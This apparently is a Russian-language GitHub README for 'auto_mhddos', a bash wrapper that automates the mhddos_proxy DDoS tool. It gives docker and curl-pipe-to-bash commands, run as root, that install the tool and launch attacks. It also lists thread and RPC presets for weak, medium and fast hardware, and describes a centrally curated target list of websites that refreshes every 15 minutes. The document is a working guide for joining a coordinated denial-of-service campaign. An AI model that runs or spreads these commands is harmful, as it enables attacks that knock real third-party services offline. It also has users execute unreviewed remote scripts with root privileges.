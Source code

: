 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)


### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

## Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### Установка.

Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash
```

Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### Запуск.

Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash
```

Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100
```

-- Среднее: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200
```

-- Быстрое: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000
```

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

# Описание
* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

# Завершение скрипта

CTRL+C срабатывает не всегда. Поэтому можно:

* Просто закрыть окно с терминалом.

ИЛИ

* В другом терминале выполните команду "pkill python3", а потом в основном терминале нажмите CTRL + C.
